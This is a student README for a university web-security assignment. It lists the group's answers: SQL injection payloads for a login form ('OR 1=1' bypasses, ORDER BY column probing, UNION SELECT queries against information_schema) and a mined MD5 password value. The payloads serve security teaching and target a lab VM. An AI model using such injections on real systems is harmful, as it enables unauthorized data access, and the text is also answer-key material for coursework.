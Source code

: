 # MP2 - WebSec
##### Instructor: Adam Bates & Ling Ren
CP1 Deadline --- Wednesday, September 27th, 6:00PM

CP2 Deadline --- Thursday, October 6th, 6:00PM

## Project Setup
1. Download VMWare
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6)
3. Setup the VM in VMWare 

## Build Project
None

## Implementation
#### 2.2.1.1
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
' OR 1=1 -- 
```
#### 2.2.1.2
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
\' OR 1=1 -- 
```
#### 2.2.1.3
##### 1. Write a python script to mine `md5` hash
Type the following command to run the python script `2.2.1.3.py`
```
./2.2.1.3.py
```
The `passwd` got from the python script is `1107388038190758764683658965752877062`

#### 2.2.1.4
##### 1. Figure out how many columns there are in the table with the following command
```
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
```
The last command will give you an error. Therefore, there are 4 columns in the table.

##### 2. Use the following command to get the `Database Name`
```
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
```

##### 3. Use the following command to get the `Database Version`
```
' UNION SELECT NULL,NULL,NULL,version(); -- 
```
Or use the following alternative command
```
' UNION SELECT NULL,NULL,NULL,@@version; -- 
```

##### 4. Use the following command to get all `Table` in the Database
```
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
```

##### 5. NEED 2.2.1.3 HASH to Finish

## Test MP2
Check `MP2 WebSec PDF`

## Developers
* Hongbo Zheng [NetID: hongboz2]
* Max Song [NetID: mcsong2]

